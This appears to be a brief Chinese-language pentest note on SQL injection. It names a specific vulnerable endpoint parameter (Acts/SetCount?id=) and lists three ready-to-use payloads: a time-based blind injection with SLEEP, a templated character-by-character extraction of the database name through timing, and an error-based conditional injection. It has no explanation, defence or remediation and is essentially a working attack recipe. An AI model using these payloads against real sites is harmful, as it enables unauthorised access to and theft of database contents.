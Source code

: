 ## sql注入
###注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```
